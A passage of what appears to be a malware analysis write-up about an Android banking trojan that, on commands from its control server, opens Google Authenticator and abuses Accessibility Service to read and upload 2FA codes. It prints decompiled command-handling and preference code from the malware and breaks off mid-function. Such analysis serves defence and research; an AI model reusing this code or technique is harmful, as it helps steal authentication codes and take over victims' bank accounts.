 The malware will receive a command related to two factor authentication `2FA` to start or stop collecting 2FA authentication codes from victim device then send 2FA message to the C2 server. The malware will run the `Google Authenticator` app and get the content of the opened interface by abusing `Accessibility Service`.

```cs 
if(Intrinsics.areEqual(s, "start2faactivator")) {
            preferences0.is2FAActivatorEnabled(boolean0);
            return;
        }

        Inject inject0 = null;
        if(Intrinsics.areEqual(s, "stop2faactivator")) {
            Log.d("2FA", String.valueOf(Preferences.is2FAActivatorEnabled$default(preferences0, null, 1, null)));
            preferences0.is2FAActivatorEnabled(Boolean.valueOf(false));
            return;
        }

        if(Intrinsics.areEqual(s, "get2fa")) {
            AppKt.log$default(this, "Request Google auth app", null, null, 6, null);
            if(!workerService1.checkScreenState(command0)) {
                return;
            }

            if(ContexStartExtensionsKt.startApp(context0, "com.google.android.apps.authenticator2")) {
                preferences0.is2FARequested(boolean0);
                return;
            }
        }
```

The malware will try to steal 2FA codes generated by `Google Authenticator` app. This can happen if the malware take `Accessibility Service` permission. If the authenticator app is running, the malware can get the content of the opened activity(interface) and then upload this information to the C2 server. By this way, the malware can get the 2FA to bypass the protection of the banking accounts.

```cs
public final boolean is2FAActivatorEnabled(Boolean boolean0) {
        if(boolean0 != null) {
            this.prefsEditor().putBoolean("is2FAActivatorEnabled", boolean0.booleanValue()).apply();
            return boolean0.booleanValue();
        }

        return this.prefs().getBoolean("is2FAActivatorEnabled", false);
    }

    public static boolean is2FAActivatorEnabled$default(Preferences preferences0, Boolean boolean0, int v, Object object0) {
        if(object0 == null) {
            if((v & 1) != 0) {
                boolean0 = null;
            }

            return preferences0.is2FAActivatorEnabled(boolean0);
        }

        throw new UnsupportedOperationException("Super calls with default arguments not supported in this target, function: is2FAActivatorEnabled");
    }

    public final boolean is2FARequested(Boolean boolean0) {
        if(boolean0 != null) {
```